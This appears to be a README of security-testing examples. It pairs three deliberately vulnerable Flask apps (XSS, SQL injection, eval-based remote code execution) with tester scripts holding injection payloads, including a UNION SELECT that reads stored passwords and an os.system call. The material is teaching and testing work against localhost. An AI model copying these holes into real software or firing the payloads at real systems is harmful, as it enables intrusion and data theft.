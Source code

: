 ## Security Vulnerabilities

Here are three specific examples of security vulnerabilities that can be tested for adversarially, along with sample code or instructions:

1. **Example: Cross-Site Scripting (XSS) Vulnerability**

   - **Description**: Test a web application for vulnerabilities related to Cross-Site Scripting, where an attacker injects malicious scripts into a webpage.
   - **Sample Prompt**: ```Write a simple Flask application that demonstrates cross-site scripting and a python script that tests that application for cross-site scripting vulnerabilities.```
   - **Test Code (Python with Flask)**:

   **vulnerable_app.py:**
   ```python
      from flask import Flask, request, render_template_string
      
      app = Flask(__name__)
      
      @app.route('/', methods=['GET', 'POST'])
      def index():
          name = request.args.get('name', 'Guest')
          template = f'''
          <h1>Welcome, {name}!</h1>
          <form action="/" method="get">
              <input type="text" name="name" placeholder="Enter your name">
              <input type="submit" value="Submit">
          </form>
          '''
          return render_template_string(template)
      
      if __name__ == '__main__':
          app.run(debug=True)
      ```
   This application is vulnerable to XSS because it directly includes user input in the template without any sanitization.
   
   **xss_tester.py:**
   ```python
   import requests
   
   def test_xss(url):
       payloads = [
           "<script>alert('XSS')</script>",
           "<img src=x onerror=alert('XSS')>",
           "<svg onload=alert('XSS')>",
           "javascript:alert('XSS')"
       ]
   
       for payload in payloads:
           response = requests.get(f"{url}?name={payload}")
           if payload in response.text:
               print(f"Potential XSS vulnerability found with payload: {payload}")
           else:
               print(f"No XSS vulnerability detected with payload: {payload}")
   
   if __name__ == '__main__':
       target_url = "http://localhost:5000"
       test_xss(target_url)
   ```
   The tester script will attempt to inject various XSS payloads and report whether they were successful or not.

2. **Example: SQL Injection Vulnerability**

   - **Description**: Test a web application for vulnerabilities related to SQL Injection, where an attacker manipulates input to execute malicious SQL queries.
   - **Sample Prompt**: ```Write a simple web application that demonstrates SQL Injection and a python script that tests that application for SQL Injection vulnerabilities.```
   - **Test Code (Python with Flask and SQLAlchemy)**:

   **app.py:**
   ```python
   from flask import Flask, request, render_template_string
   import sqlite3
   
   app = Flask(__name__)
   
   # Initialize the database
   def init_db():
       conn = sqlite3.connect('users.db')
       c = conn.cursor()
       c.execute('''CREATE TABLE IF NOT EXISTS users
                    (id INTEGER PRIMARY KEY, username TEXT, password TEXT)''')
       c.execute("INSERT OR IGNORE INTO users (id, username, password) VALUES (1, 'admin', 'secretpassword')")
       c.execute("INSERT OR IGNORE INTO users (id, username, password) VALUES (2, 'user', 'userpassword')")
       conn.commit()
       conn.close()
   
   init_db()
   
   @app.route('/', methods=['GET', 'POST'])
   def login():
       error = None
       if request.method == 'POST':
           username = request.form['username']
           password = request.form['password']
           
           # Vulnerable SQL query
           query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
           
           conn = sqlite3.connect('users.db')
           c = conn.cursor()
           c.execute(query)
           user = c.fetchone()
           conn.close()
           
           if user:
               return f"Welcome, {user[1]}!"
           else:
               error = "Invalid credentials"
       
       return render_template_string('''
           <h1>Login</h1>
           {% if error %}
           <p style="color: red;">{{ error }}</p>
           {% endif %}
           <form method="post">
               Username: <input type="text" name="username"><br>
               Password: <input type="password" name="password"><br>
               <input type="submit" value="Login">
           </form>
       ''', error=error)
   
   if __name__ == '__main__':
       app.run(debug=True)
   ```
   This application is vulnerable to SQL Injection because it directly incorporates user input into the SQL query without proper sanitization.

    **test_sql_injection.py:**
   ```python
   import requests
   
   def test_sql_injection(url):
       # Test cases
       payloads = [
           "' OR '1'='1",
           "' OR '1'='1' --",
           "' UNION SELECT 1, username, password FROM users --",
           "admin' --",
           "' OR 1=1 --",
       ]
   
       for payload in payloads:
           data = {
               'username': payload,
               'password': 'anything'
           }
           response = requests.post(url, data=data)
           
           print(f"Payload: {payload}")
           print(f"Response: {response.text}")
           print(f"Status Code: {response.status_code}")
           print("-" * 50)
   
           if "Welcome" in response.text:
               print("SQL Injection vulnerability detected!")
               return True
   
       print("No SQL Injection vulnerability detected.")
       return False
   
   if __name__ == "__main__":
       url = "http://localhost:5000"  # Change this to the URL of your Flask app
       test_sql_injection(url)
   ```
   The testing script will attempt various SQL Injection payloads and report if any vulnerabilities are detected.

4. **Example: Remote Code Execution (RCE) Vulnerability**

   - **Description**: Test a system for vulnerabilities related to Remote Code Execution, where an attacker can execute arbitrary code on a server.
   - **Sample Prompt**: ```Write a simple web application that demonstrates Remote Code Execution and a python script that tests that application for Remote Code Execution vulnerabilities.```
   - **Test Code (Python)**:

   **app.py**:
   ```python
   from flask import Flask, request
   
   app = Flask(__name__)
   
   @app.route("/", methods=["GET"])
   def index():
       return "Hello, World!"
   
   @app.route("/exec", methods=["POST"])
   def exec_code():
       code = request.form["code"]
       result = eval(code)
       return f"Result: {result}"
   
   if __name__ == "__main__":
       app.run()
   ```

   This application has two routes: `/` and `/exec`. The `/` route returns a simple message, while the `/exec` route takes a piece of Python code as input, evaluates it using `eval()`, and returns the result.
   
   **testing.py**
   ```python
   import requests
   
   # Set up the URL and payload for the request
   url = "http://localhost:5000/exec"
   payload = {"code": "__import__('os').system('ls -la')"}
   
   # Make the request and get the response
   response = requests.post(url, data=payload)
   
   # Check if the response contains the expected result
   if "Result: None" in response.text:
       print("Remote Code Execution vulnerability detected!")
   else:
       print("No Remote Code Execution vulnerability detected.")
   ```

   This script makes a POST request to the `/exec` route of the application with a piece of Python code that imports the `os` module and executes the `ls -la` command. If the response contains the expected result (i.e., "Result: None"), then it means that the application is vulnerable to Remote Code Execution attacks.

It's important to note that these examples demonstrate how vulnerabilities can be exploited adversarially. In practice, identifying and mitigating such vulnerabilities is critical to ensuring the security of applications and systems. Security testing should be conducted responsibly and with proper authorization.
